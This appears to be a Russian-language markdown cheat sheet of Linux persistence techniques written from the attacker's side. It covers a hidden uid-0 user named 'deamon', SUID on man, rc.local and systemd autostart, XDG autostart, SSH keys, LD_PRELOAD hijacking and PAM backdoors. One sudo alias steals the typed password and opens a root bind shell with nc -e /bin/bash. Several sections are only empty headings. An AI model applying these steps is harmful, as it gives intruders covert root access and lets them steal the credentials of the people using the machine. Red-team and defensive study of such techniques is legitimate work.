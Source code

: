 # Закрепление в Linux

## Новый пользователь

Создание нового пользователя с необычным uid и именем:
`sudo useradd -o -u 0 -g 0 -s /bin/bash deamon`

Есть способ создать пользователя без записи в файл `/etc/passwd`. Для этого можно в файле `/etc/nsswitch.conf` определить альтернативную базу passwd.

## Смена переменной окружения PATH или secure_path в sudoers

## Использование уязвимости команды less

## Прописаться в cron от "демона"

## Добавление файла /etc/ssh/sshrc
Добавление ip в black list: /etc/hosts.deny

## Использование SUID

```
man_path=$(where man)
chmod u+s $man_path/man
```

Эксплуатация:

```
man man
!/bin/sh
```

Также можно прочитать файл: `man file_to_read`

Аналогично для jounralctl

## Добавление файла rc.local в /etc

Файл rc.local выполняет скрипты после сразу после старта ОС. При старте системы, скрипты выполняются с правами root.
Сначала необходимо включить сервис: `sudo systemctl enable rc-local`

`sudo nano /etc/rc.local`

```
#!/bin/bash
# Здесь скрипт
exit 0
```

`sudo chmod +x /etc/rc.local`

## Добавление ключа SSH

Добавить ключи в `~/.ssh/authorized_keys`. Но должны быть права `rw-------`

## Автозагрузка после системы инициализации

Необходимо создать unit-файл:

```
[Unit]
Description=My Script Service
After=multi-user.target
[Service]
Type=idle
ExecStart=/usr/bin/local/script.sh
[Install]
WantedBy=multi-user.target
```

Нужный файл сделать исполняемым: `sudo chmod u+x /usr/local/bin/script.sh`.
Также включить службу: `sudo systemctl enable myscript.service`

Unit-файлы обычно лежат в следующих каталогах:

1. `/usr/lib/systemd/system/` - юниты из установленных пакетов RPM — всякие nginx, apache, mysql и прочее
2. `/run/systemd/system/` - юниты, создаваемые на лету
3. `~/.config/systemd/user/` - этот путь будет вам полезен, если вы не смогли подняться до root. Тут лежат user-mode services.
4. `/etc/systemd/system/` - юниты, созданные системным администратором. Сюда можно размещать свои unit-файлы. А можно внести изменения в уже существующие, что будет менее заметно.

## Прописаться в окружения рабочего стола - XDG autostart

Большинство окружений рабочих столов (desktop environments) и менеджеров окон (windows managers) поддерживают автозагрузку программ (XDG autostart). Сущности хранятся в `~/.config/autostart` или `/etc/xdg/autostart/`. Код, определенный в этих файлах исполняется при входе пользователя и загрузки среды рабочего стола. Команды выполняются в контексте залогиневшегося пользователя. На самом деле пути ~/.config/autostart и /etc/xdg/autostart/ определены переменными окружения $XDG_CONFIG_HOME и $XDG_CONFIG_DIRS

```
[Desktop Entry]
Type=Application # Определяет тип сущности: приложение (application), ссылка (link) или каталог (directory)
Name=Welcome  # Имя определенное создателем сущности
Exec=/var/lib/gnome-welcome-tour  # Команда с аргументами, которую необходимо выполнить
```

## .bashrc, .bash_profile

## Добавить alias

`alias sudo='echo -n "[sudo] password for \$USER: ";read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '`

## docker escape

Запускаем докер с необходимым capabilities

## Dynamic Link Hijacking

Как создаются утилиты операционной системы? Пишется код, который потом компилируется. Код хотя бы немного продвинутой и сложной утилиты - это не один файл, а несколько, которые подключаются как библиотеки к основному. Библиотеки бывают статическими и динамическими. Статические нам неинтересны - на этапе компиляции их код целиком помещается в исполняемый файл, и мы мало можем на него повлиять. То ли дело динамические! Это отдельные файлы, независимые, которые лежат где-то в операционной системе. При запуске утилита с внешними зависимостями ищет нужные библиотеки в операционной системе. Вот тут мы и можем вмешаться.

Для начала нам надо найти такую утилиту, которая использует динамическую библиотеку. Понять, какая функция вызывается. В этом нам поможет утилита `ltrace`, она позволяет вывести вызовы всех внешних функций. Затем мы создаем свою библиотеку с таким же именем и определяем в ней такую же функцию. Важно, чтобы сигнатура нашей функции совпадала с сигнатурой исходной легитимной функции. Компилируем и размещаем в целевой системе.

Как же нам заставить теперь бинарный файл утилиты использовать нашу библиотеку? Нам поможет особенность динамического линковщика, он первыми загружает библиотеки, определенные в переменной `LD_PRELOAD`, и эти библиотеки имеют приоритет над остальными. То есть нам достаточно изменить переменную среды окружения `LD_PRELOAD`. Один из способов - export в `.bashrc`. Тоже самое можно сделать в файлах `/etc/environment` или `/etc/security/pam_env.conf`.

##

Pluggable Authentication Modules - модули для аутентификации, как несложно догадаться по переводу. До появления PAM администратору приходилось пройти все 12 кругов ада, чтобы настроить какую-то внешнюю систему аутентификации. Сейчас надо изменить пару строчек в паре конфигурационных файлов. Если в файле `/etc/pam.d` для всех модулей выставить control_flag в значение `optional`, то мы сможет входить в систему вообще без пароля. Как и администраторы. Поэтому наш бекдорчик быстро найдут и закроют точку входа.

Чуть менее заметный ход - написать свой собственный модуль. Файл с ним необходимо разместить с другими модулями по пути /lib/x86_64-linux-gnu/security/. Что вы там реализуете, дело вашей фантазии: волшебный пароль, который открывает все двери, или логирование паролей других пользователей, а можно сразу открытие бекконнекта (why not?). Можно добавить свой модуль, можно заменить уже существующий. Берем исходники, делаем закладку, собираем и замещаем. Готово, вы прекрасны!
